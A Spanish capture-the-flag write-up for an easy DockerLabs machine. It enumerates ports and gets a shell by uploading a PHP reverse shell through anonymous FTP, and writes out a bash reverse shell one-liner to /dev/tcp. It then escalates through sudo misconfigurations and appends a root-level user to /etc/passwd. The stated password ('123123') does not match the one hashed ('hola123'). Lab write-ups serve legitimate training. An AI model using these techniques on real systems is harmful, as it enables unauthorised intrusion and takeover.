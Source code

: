 ## Información

**Plataforma:** DockerLabs
**Dificultad:** Easy

---
## Enumeración

### Nmap

```bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

> Puertos encontrados: 21,80
#### Escáner de puertos específicos:
```bash
❯ nmap -p21,80 -sCV 172.17.0.2
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28 18:28 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28 21:08 upload [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Unix

```

## Paso a Paso

Notamos en el reporte específico que el ftp tiene acceso anon, que al listar nos muestra archivos html, lo que nos da indicio de que esta posicionado en la carpeta raíz del puerto 80. Lo primero que se me ocurre es intentar subir un archivo para obtener una shell.

![image](https://github.com/user-attachments/assets/12e79185-60f2-4fd6-b755-8a490eab4dfd)


Al comparar el index del ftp y del puerto 80 notamos que son exactamente el mismo
![image](https://github.com/user-attachments/assets/6c7a2093-fd8e-4106-8624-20bae22ee26f)



Haré una rev shell con msfvenom (Me estoy preparando para el eJPT por lo que intento usar esta herramienta, pero realmente con un php monkey vendría mejor):
![image](https://github.com/user-attachments/assets/2cb83a3d-4fe4-425b-a365-0cf5dcb157ac)


Notamos que no tenemos permisos para subir archivos en la raiz del ftp
![image](https://github.com/user-attachments/assets/004f58b7-2e75-4d85-b87d-e2924d5f6583)


Pero también, gracias al nmap especifico, notamos que en la carpeta uploads tenemos permisos de escritura, igual corroboramos con un ls -la:

![image](https://github.com/user-attachments/assets/eb038b75-c8dc-492b-8a1e-ee81f70462dd)


Lo subimos ahí

![image](https://github.com/user-attachments/assets/f724d774-30dc-4a42-b98f-72995e415258)


Abrimos el navegador en la ruta del upload

![image](https://github.com/user-attachments/assets/a23997a6-cf0f-4fd1-8953-888773ce74d9)


nos ponemos en escucha con nc

![image](https://github.com/user-attachments/assets/00d024a0-7b59-4491-8d19-9708802c0afd)


Presionamos el archivo.php en la web y listo

![image](https://github.com/user-attachments/assets/3623827d-9d6a-4a6b-8312-854b3bd052da)


Como lo hice con msfvenom nos migramos a otro nc usando un oneliner en paralelo, por lo que nos ponemos en escucha en otro puerto no usado (por ej el 5555)

`bash -c "bash -i >& /dev/tcp/172.17.0.1/5555 0>&1"`

![image](https://github.com/user-attachments/assets/5057cf4d-9c20-44b0-979a-aa878daec81b)


![image](https://github.com/user-attachments/assets/412866d5-97d7-486f-b321-62e07c90f6f0)

y listo, tenemos shell como usuario www-data

## Pivoteando a user

#### Moviendo a user pingu
Notamos que al hacer un sudo -l tenemos permisos sudo como el user pingu del man

![image](https://github.com/user-attachments/assets/365d733a-0fe3-4376-83f2-f19fc6762d1a)


Tiramos de gtfobins

![image](https://github.com/user-attachments/assets/bc009c9e-b71b-4a5d-a209-3f6e6d7774be)


![image](https://github.com/user-attachments/assets/627a5f86-8ba4-4cd3-808f-65e706ce5fa5)


y listo, migramos al user pingu

#### Moviendo hacia user gladyss
Notamos que al tirar un sudo -l tenemos permisos para usar nmap y dpkg como gladys

Al leer la info de nmap en gtfobins, al intentarlo no funciona, esto es debido a que la máquina víctima tiene una versión de nmap en donde ya no sirve el --interactive por lo que optamos por leer la info del dpkg
![image](https://github.com/user-attachments/assets/83a48378-aac5-41e5-a647-d6b7f57bb686)


y listo:
![image](https://github.com/user-attachments/assets/312a6269-3136-4f77-821b-bf0b8fff07b8)


ya tenemos acceso a gladys y al hacer un sudo -l notamos que tiene permisos sudo en el chown.

## Escalada de privilegios

Me di cuenta que no tiene nano la máquina por lo que no puedo editar el etc sudoers, lo que podemos hacer es cambiarle los permisos user:group al /etc/passwd y dárselos a gladys, así podemos crear un user con privilegios (Lo que hace root es el código 0:0 es decir el id de usuario y grupo, 0 corresponde a root)

para esto creamos un hash de contraseña con:

`openssl passwd hola123`
![image](https://github.com/user-attachments/assets/97956565-f814-41a5-80ef-9e0db7fa5bf0)


Luego usamos ese hash para el usuario nuevo haciendo echo

`echo 'rootcito:$1$dsFeRo/J$sd7nh6Js.KWNnFct6hP2y1:0:0::/home/rootcito:/bin/bash` >> /etc/passwd`

![image](https://github.com/user-attachments/assets/9ebe71bd-593e-445b-92e3-ef44f200e660)


notamos que funcionó, hacemos un **su rootcito** con la clave 123123

![image](https://github.com/user-attachments/assets/703f4f07-2cad-4271-9d12-1cafe2306c08)


**y listo! Máquina lista**

---

